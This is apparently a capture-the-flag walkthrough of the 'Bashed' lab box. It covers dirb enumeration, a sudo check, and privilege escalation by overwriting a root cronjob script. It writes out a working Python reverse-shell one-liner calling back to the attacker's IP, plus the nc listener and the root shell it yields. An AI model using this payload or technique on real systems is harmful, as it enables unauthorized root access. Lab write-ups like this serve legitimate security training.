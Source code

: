 # Bashed - 10.10.10.68

## Discover existing php shell with dirb
```bash
root@other-barry:~/Downloads# dirb http://10.10.10.68 /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Feb 18 11:44:31 2018
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/
==> DIRECTORY: http://10.10.10.68/dev/
==> DIRECTORY: http://10.10.10.68/fonts/
==> DIRECTORY: http://10.10.10.68/images/
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)
==> DIRECTORY: http://10.10.10.68/js/
```

## Determine Sudo Permissions
```bash
sudo -l
```

We can switch to user scriptmanager, let's look around in the root directory and see if there's anything interesting.

Looks like we can write to a file in scripts that'll get executed by a cronjob that runs as root.

## Create reverse shell
There were some issues writing directly to the test.py file, even as scriptmanager. So we'll create a copy of the script we want on the /dev/shm device.

```bash
sudo -u scriptmanager echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.157",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /dev/shm/testlooser.py
```

start listening on our attacker box to catch the reversse shell:
```bash
nc -nvlp 8080
```
and copy the file to the desired location
```bash
sudo -u scriptmanager cp /dev/shm/testlooser.py /scripts/test.py
```
now we wait for the cronjob to run
```
root@other-barry:~/Downloads# nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.68] 53508
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
aaaaand, we're root.
